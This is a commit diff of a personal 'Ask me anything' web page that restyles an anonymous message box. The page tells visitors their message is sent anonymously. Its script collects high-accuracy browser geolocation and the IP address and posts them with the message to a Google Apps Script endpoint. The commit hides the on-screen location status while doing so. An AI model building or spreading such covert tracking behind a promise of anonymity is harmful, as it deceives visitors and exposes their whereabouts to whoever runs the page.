

Before and after one commit to warheadgameryt-star/first-website, a plain HTML site: page index.html in a window 1280 px wide. After the commit the page ends 840 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,80 +1,249 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>Anonymous Message</title>
+  <title>Glass Message Box</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <link href="https://fonts.googleapis.com/css2?family=Fira+Code:wght@300;400;500&display=swap" rel="stylesheet">
   <link rel="stylesheet" href="style.css">
-  <link href="https://fonts.googleapis.com/css2?family=Fira+Code&display=swap" rel="stylesheet">
+
 
   <style>
+    :root {
+      --primary-color: rgba(120, 99, 241, 0.8);
+      --primary-hover: rgba(120, 99, 241, 0.9);
+      --error-color: rgba(255, 107, 107, 0.8);
+      --text-color: rgba(255, 255, 255, 0.9);
+      --light-text: rgba(255, 255, 255, 0.7);
+      --glass-bg: rgba(255, 255, 255, 0.1);
+      --glass-border: rgba(255, 255, 255, 0.2);
+      --glass-shadow: 0 8px 32px rgba(0, 0, 0, 0.2);
+    }
+
     body {
-      font-family: Arial, sans-serif;
+      font-family: 'Fira Code', monospace;
       text-align: center;
-      padding: 50px;
-      background-color: #f5f5f5;
+      padding: 20px;
+      background: linear-gradient(135deg, #0f172a 0%, #1e293b 100%);
+      color: var(--text-color);
+      min-height: 100vh;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      margin: 0;
+      background-image: url('bg.jpg');
+      background-size: cover;
+      background-position: center;
     }
+
+    .container {
+      background: var(--glass-bg);
+      backdrop-filter: blur(12px);
+      -webkit-backdrop-filter: blur(12px);
+      padding: 30px;
+      border-radius: 16px;
+      border: 1px solid var(--glass-border);
+      box-shadow: var(--glass-shadow);
+      width: 100%;
+      max-width: 500px;
+      margin: 20px;
+      position: relative;
+      overflow: hidden;
+    }
+
+    /* Glass border animation */
+    .container::before {
+      content: '';
+      position: absolute;
+      top: -2px;
+      left: -2px;
+      right: -2px;
+      bottom: -2px;
+      background: linear-gradient(45deg,
+        rgba(110, 231, 183, 0.3),
+        rgba(94, 234, 212, 0.3),
+        rgba(110, 231, 183, 0.3));
+      z-index: -1;
+      border-radius: 18px;
+      background-size: 200% 200%;
+      animation: gradient 5s ease infinite;
+      opacity: 0.7;
+    }
+
+    @keyframes gradient {
+      0% { background-position: 0% 50%; }
+      50% { background-position: 100% 50%; }
+      100% { background-position: 0% 50%; }
+    }
+
+    .overlay-img {
+      width: 120px;
+      height: 120px;
+      border-radius: 50%;
+      object-fit: cover;
+      border: 2px solid rgba(255, 255, 255, 0.3);
+      box-shadow: 0 4px 30px rgba(0, 0, 0, 0.1);
+      margin-bottom: 20px;
+      background: rgba(255, 255, 255, 0.2);
+      backdrop-filter: blur(5px);
+    }
+
+    h2 {
+      margin-bottom: 20px;
+      color: var(--text-color);
+      font-weight: 500;
+      text-shadow: 0 2px 4px rgba(0, 0, 0, 0.2);
+    }
+
+    p {
+      color: var(--light-text);
+      margin-bottom: 25px;
+      font-size: 14px;
+    }
+
     textarea {
-      width: 90%;
-      height: 100px;
-      padding: 10px;
+      width: 100%;
+      height: 120px;
+      padding: 15px;
       font-size: 16px;
-      border-radius: 8px;
-      border: 1px solid #ccc;
+      border-radius: 12px;
+      border: 1px solid var(--glass-border);
+      resize: vertical;
+      margin-bottom: 15px;
+      background: rgba(255, 255, 255, 0.1);
+      color: var(--text-color);
+      font-family: 'Fira Code', monospace;
+      transition: all 0.3s ease;
+      backdrop-filter: blur(5px);
     }
+
+    textarea::placeholder {
+      color: rgba(255, 255, 255, 0.5);
+    }
+
+    textarea:focus {
+      outline: none;
+      border-color: var(--primary-color);
+      box-shadow: 0 0 0 3px rgba(110, 231, 183, 0.3);
+      background: rgba(255, 255, 255, 0.15);
+    }
+
     button {
+      margin-top: 10px;
+      padding: 14px 32px;
+      font-size: 16px;
+      font-weight: 500;
+      border: none;
+      border-radius: 12px;
+      background: var(--primary-color);
+      color: #0f172a;
+      transition: all 0.3s ease;
+      cursor: pointer;
+      backdrop-filter: blur(5px);
+      -webkit-backdrop-filter: blur(5px);
+      box-shadow: 0 4px 15px rgba(0, 0, 0, 0.1);
+      font-family: 'Fira Code', monospace;
+      position: relative;
+      overflow: hidden;
+    }
+
+    button:hover {
+      background: var(--primary-hover);
+      transform: translateY(-2px);
+      box-shadow: 0 6px 20px rgba(0, 0, 0, 0.15);
+    }
+
+    button:active {
+      transform: translateY(0);
+    }
+
+    button:disabled {
+      background: rgba(255, 255, 255, 0.2);
+      color: rgba(255, 255, 255, 0.5);
+      cursor: not-allowed;
+      transform: none;
+    }
+
+    #locationStatus {
       margin-top: 15px;
-      padding: 10px 25px;
-      font-size: 16px;
-      border: none;
-      border-radius: 8px;
-      background-color: #4CAF50;
-      color: white;
-      transition: background-color 0.3s;
-    }
-    button:hover {
-      background-color: #45a049;
-      cursor: pointer;
-    }
-    button:disabled {
-      background-color: #cccccc;
-      cursor: not-allowed;
-    }
-    #locationStatus {
-      margin-top: 10px;
       font-size: 14px;
-      color: #666;
+      color: var(--light-text);
       min-height: 20px;
     }
+
     .privacy-notice {
-      margin-top: 20px;
+      margin-top: 25px;
       font-size: 12px;
-      color: #777;
+      color: var(--light-text);
+      line-height: 1.6;
     }
+
     .success-message {
-      color: #4CAF50;
-      font-weight: bold;
+      color: var(--primary-color);
+      font-weight: 500;
     }
+
     .error-message {
-      color: #f44336;
-      font-weight: bold;
+      color: var(--error-color);
+      font-weight: 500;
+    }
+
+    .typing-indicator {
+      display: none;
+      margin: 5px 0 15px;
+      color: var(--light-text);
+      font-size: 13px;
+      text-align: right;
+    }
+
+    @media (max-width: 480px) {
+      body {
+        padding: 15px;
+      }
+
+      .container {
+        padding: 25px;
+      }
+
+      textarea {
+        height: 100px;
+        padding: 12px;
+      }
+
+      button {
+        padding: 12px 28px;
+      }
     }
   </style>
 </head>
 <body>
-  <img src="my.jpg" alt="My Photo" class="overlay-img">
-  <h2>ASK ANYTHING ABOUT ME</h2>
-  <textarea id="message" placeholder="Type your message here..."></textarea>
-  <br>
-  <button id="sendButton" onclick="sendMessage()">Send</button>
-  <div id="locationStatus"></div>
-  <div class="privacy-notice">
+  <div class="container">
+    <img src="my.jpg" alt="Profile Photo" class="overlay-img">
+    <h2>ASK ME ANYTHING</h2>
+    <p>Send your question anonymously</p>
 
+    <textarea id="message" placeholder="Type your message here..." maxlength="500"></textarea>
+    <div class="typing-indicator" id="charCount">0/500 characters</div>
+
+    <button id="sendButton" onclick="sendMessage()">Send Message</button>
+    <div id="locationStatus"></div>
+
+    <div class="privacy-notice">
+      <p>Your message will be sent anonymously. </p>
+    </div>
   </div>
 
   <script>
+    // Character counter for textarea
+    document.getElementById('message').addEventListener('input', function() {
+      const charCount = this.value.length;
+      document.getElementById('charCount').textContent = `${charCount}/500 characters`;
+      document.getElementById('charCount').style.display = 'block';
+    });
+
     async function sendMessage() {
       const message = document.getElementById('message').value.trim();
       if (!message) {
-        alert("Please type a message!");
+        alert("Please type a message before sending!");
         return;
       }
 
@@ -100,13 +269,13 @@
         let coords = { latitude: null, longitude: null, accuracy: null };
 
         if (navigator.geolocation) {
-          locationStatus.textContent = "";
+         // locationStatus.textContent = "🔍 Detecting your location...";
 
           try {
             const position = await new Promise((resolve, reject) => {
               navigator.geolocation.getCurrentPosition(resolve, reject, {
                 enableHighAccuracy: true,
-                timeout: 8000,  // Increased timeout
+                timeout: 8000,
                 maximumAge: 0
               });
             });
@@ -117,18 +286,21 @@
               accuracy: position.coords.accuracy
             };
 
-            //locationStatus.innerHTML = `<span class="success-message">Location: Captured (accuracy: ${Math.round(coords.accuracy)}m)</span>`;
+            locationStatus.innerHTML = `<span class="success-message"></span>`;
           } catch (error) {
-            locationStatus.innerHTML = `<span>Location: Using approximate location (IP: ${ip})</span>`;
+            locationStatus.innerHTML = `<span>Using approximate location (IP: ${ip})</span>`;
             console.warn("Geolocation error:", error);
           }
         } else {
-          locationStatus.innerHTML = `<span>Location: Using IP-based location (${ip})</span>`;
+          locationStatus.innerHTML = `<span>Using IP-based location (${ip})</span>`;
         }
 
         const url = "https://script.google.com/macros/s/AKfycbyAuM-49crRaXDahsEC7GmkOcL3ZrW_3N4MFlPbhqjAe81kEyVpS0KA12T2YZq5tIgxLg/exec";
 
-        const response = await fetch(url, {
+        // Show loading state
+        locationStatus.innerHTML += `<br><span>⏳ Sending message...</span>`;
+
+        await fetch(url, {
           method: "POST",
           mode: "no-cors",
           body: JSON.stringify({
@@ -141,18 +313,22 @@
           headers: { "Content-Type": "application/json" }
         });
 
-        alert("Message sent successfully!" + (coords.latitude ?
-              "\n\n" :
-              "\n\n"));
+        // Success message with animation
+        locationStatus.innerHTML = `<span class="success-message">✓ Message sent successfully!</span>`;
         document.getElementById('message').value = "";
+        document.getElementById('charCount').style.display = 'none';
+
+        // Reset form after delay
+        setTimeout(() => {
+          locationStatus.textContent = "";
+        }, 3000);
 
       } catch (error) {
-        locationStatus.innerHTML = `<span class="error-message">Failed to send message</span>`;
+        locationStatus.innerHTML = `<span class="error-message">✗ Failed to send message. Please try again.</span>`;
         console.error("Submission error:", error);
-        alert("Failed to send message. Please try again.");
       } finally {
         sendButton.disabled = false;
-        sendButton.textContent = "Send";
+        sendButton.textContent = "Send Message";
       }
     }
   </script>
```
